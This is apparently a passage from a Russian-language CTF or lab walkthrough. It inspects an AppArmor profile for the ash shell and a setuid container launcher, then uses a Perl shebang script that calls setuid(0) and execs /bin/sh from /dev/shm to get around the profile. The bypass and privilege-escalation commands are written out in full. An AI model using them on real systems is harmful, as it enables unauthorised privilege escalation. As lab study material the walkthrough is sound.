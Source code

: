 ```commandline
cat /etc/apparmor.d/usr.sbin.ash

# Deny access to certain directories
  deny /opt/ r,
  deny /opt/** w,
  deny /tmp/** w,
  deny /dev/shm w,
  deny /var/tmp w,
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,
```


посмотрим, а сможем ли мы изменить запускаемый скрипт, командой:

```commandline
nano /opt/run_container.sh
```
увы, но нет.... ок, тогда найдем, что именно запускает этот код:
```commandline
strings /usr/sbin/run_container | grep run

/opt/run_container.sh
run_container.c
```

зная какую оболочку мы используем `ash` а также место расположения скрипта, который нам предстоит модифицировать, 
найдем пути повышения привилегий, путем поиска в google - hacktricks apparmor, перейдем по ссылке:
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/apparmor
где найдем вот такой код, для выполения под Perl:
```commandline
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```

но, ном нужно будет его немого изменить, т.к. права сохранять файлы во временной директории у нас нет, получим:
```commandline
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /dev/shm/test.pl
chmod +x /dev/shm/test.pl
/dev/shm/test.pl
```
после запуска в командной строке, проверим кто мы сейчас:
```commandline
id 
whoami
```
мы конечно еще не супер пользователь, но уже запустили полноценную оболочку `bash` и можем изменить целевой скрипт
